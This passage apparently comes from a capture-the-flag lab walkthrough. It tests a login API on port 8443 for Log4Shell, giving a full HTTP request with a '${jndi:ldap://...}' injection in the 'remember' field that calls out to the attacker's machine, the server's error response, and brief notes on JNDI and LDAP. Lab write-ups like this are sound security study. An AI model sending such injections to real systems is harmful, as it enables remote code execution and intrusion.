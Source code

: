 Here is the request from my Kali machine:

```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.129.96.149:8443/manage/account/login?redirect=%2Fmanage
Content-Type: application/json; charset=utf-8
Content-Length: 68
Origin: https://10.129.96.149:8443
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{
	"username":"test",
	"password":"test",
	"remember":"${jndi:ldap://10.10.14.244/whatever}",
	"strict":true
}
```

Notes:

**JNDI** is the acronym for the ```Java Naming and Directory Interface API```. By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

**LDAP** is the acronym for ```Lightweight Directory Access Protocol```, which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is ```port 389```.

*After we hit "send" the "Response" pane will display the response from the request. The output shows us an error message stating that the payload is invalid, but despite the error message the payload is actually being executed.*

Here is how it looks like on my Kali machine:

```
HTTP/1.1 400 
vary: Origin
Access-Control-Allow-Origin: https://10.129.96.149:8443
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Access-Control-Allow-Origin,Access-Control-Allow-Credentials
X-Frame-Options: DENY
Content-Type: application/json;charset=UTF-8
Content-Length: 64
Date: Tue, 10 Sep 2024 14:56:32 GMT
Connection: close

{
  "meta":{
    "rc":"error",
    "msg":"api.err.InvalidPayload"
   },
   "data":[
   ]
}
```
